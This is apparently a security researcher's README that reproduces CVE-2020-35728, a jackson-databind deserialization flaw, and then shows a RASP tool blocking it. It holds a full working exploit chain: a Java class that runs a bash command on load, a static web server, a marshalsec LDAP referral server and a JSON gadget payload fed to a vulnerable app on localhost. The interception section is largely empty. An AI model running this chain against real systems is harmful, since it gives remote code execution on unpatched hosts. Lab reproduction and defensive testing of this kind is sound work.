




# CVE-2020-35728

## 漏洞简介

jackson-databind是一套开源java高性能JSON处理器。jackson-databind存在一处反序列化远程代码执行漏洞，该漏洞是由于com.oracle.wls.shaded.org.apache.xalan.lib.sql.JNDIConnectionPool组件库存在不安全的反序列化，导致攻击者可以利用漏洞实现远程代码执行

##  影响版本

FasterXML jackson-databind 2.x < 2.9.10.8


## 漏洞复现


### 命令执行类构建
```java
public class LifExp {
    static {
        try {
            String[] cmd = {"bash", "-c", "touch /tmp/cve-2020-35728.txt"};
            java.lang.Runtime.getRuntime().exec(cmd);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {

    }
}
```
并将上述类编译为 `LifExp.class`

### 搭建静态 web 服务

```py
python2 -m SimpleHTTPServer 4444
```

并能够下载 LifExp.class 文件




### LDAP 服务准备
```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://localhost:4444/#LifExp 1088
```

### 准备一个有漏洞的服务

```java
import com.fasterxml.jackson.databind.ObjectMapper;

public class CVE_2020_35728 {
    public static void main(String[] args) throws Exception {
        String payload = "[\"com.oracle.wls.shaded.org.apache.xalan.lib.sql.JNDIConnectionPool\",{\"jndiPath\":\"ldap://127.0.0.1:1088/LifExp\"}]";
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        Object obj = mapper.readValue(payload, Object.class);
        mapper.writeValueAsString(obj);
    }
}
```

 maven 依赖
```
    <dependencies>
        <dependency>
            <groupId>com.fasterxml.jackson.core</groupId>
            <artifactId>jackson-databind</artifactId>
            <version>2.9.10.7</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/org.glassfish.web/jakarta.servlet.jsp.jstl -->
        <dependency>
            <groupId>org.glassfish.web</groupId>
            <artifactId>jakarta.servlet.jsp.jstl</artifactId>
            <version>2.0.0</version>
        </dependency>


        <dependency>
            <groupId>org.slf4j</groupId>
            <artifactId>slf4j-nop</artifactId>
            <version>1.7.2</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/javax.transaction/jta -->
        <dependency>
            <groupId>javax.transaction</groupId>
            <artifactId>jta</artifactId>
            <version>1.1</version>
        </dependency>
    </dependencies>
```

### 复现结果




## RASP防护

### 拦截结果


### 拦截结果分析

执行的命令

```
touch /tmp/cve-2020-35728.txt
```
调用栈


